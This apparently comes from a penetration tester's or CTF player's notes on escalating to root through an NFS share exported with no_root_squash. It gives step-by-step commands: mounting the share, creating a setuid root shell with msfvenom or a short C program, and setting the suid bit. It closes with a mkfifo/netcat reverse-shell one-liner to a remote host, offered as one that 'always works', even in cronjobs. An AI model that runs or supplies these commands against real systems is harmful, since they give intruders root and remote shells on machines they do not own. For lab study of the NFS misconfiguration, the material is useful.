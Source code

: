 When included in a writable share configuration, a remote user who identifies as 'root' can create files on the NFS share as the local root user.

*exports file content*
```bash
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)

```

As you can see here the rw and no_squash option is enabled so we can write file on it as a root user.

Command: `showmount -e `
```bash
Export list for 10.10.28.252:
/tmp *
```
*output*

**Create a directory for the mount point for this and mount:**
```bash
mkdir /tmp/nfs
sudo mount -o rw,vers=2 <IP>:/tmp /tmp/nfs
```

Create a paylod by which executing we can get the shell in the same tty
`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
or 
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
 then compile and set the suid bit.

**set the permisson of executing a normal user**`chmod +xs shell.elf`
BOOM!!



# Priv esc tip
1. If you are on other network and looking for shell then open new terminal login in same network and then listen for the priv escalated shell
2. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/home/tony/nc 172.17.0.3 1337 >/tmp/f` always works even in cronjobs if you get the chance to exploit then use this one.
3. If you get 127.0.0.1:1234 running then also by tunneling try `nc` and browser
